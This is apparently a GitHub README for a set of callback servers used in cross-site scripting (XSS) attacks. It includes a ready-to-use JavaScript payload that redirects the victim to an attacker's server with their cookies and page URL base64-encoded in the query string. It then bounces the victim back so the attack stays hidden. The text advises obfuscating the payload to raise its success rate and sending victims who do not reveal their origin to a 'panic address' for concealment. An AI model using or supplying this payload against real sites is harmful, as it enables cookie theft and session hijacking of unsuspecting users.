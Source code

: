 A collection of Cross-Origin callback servers for XSS exploitation.

## Description

This repo contains a range of callback servers and an XSS payload that, once executed, will change the current window location of the victim to your callback server, which responds with a **301 Moved Permanently** redirection back to where the victim came from (Origin), although this time with a token in the URL anchor, telling your XSS payload to stay dormant.

If for whatever reason the victim did not reveal its origin, the victim will be redirected to your panic address of choice, in an attempt to keep the attack hidden.

## Usage

Use your callback server of choice and make sure it's listening.

Then throw the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be. 

Refine your payload as required, or it may get triggered unexpectedly. please do not open issues if it's not working for you.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
                	"?origin=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```
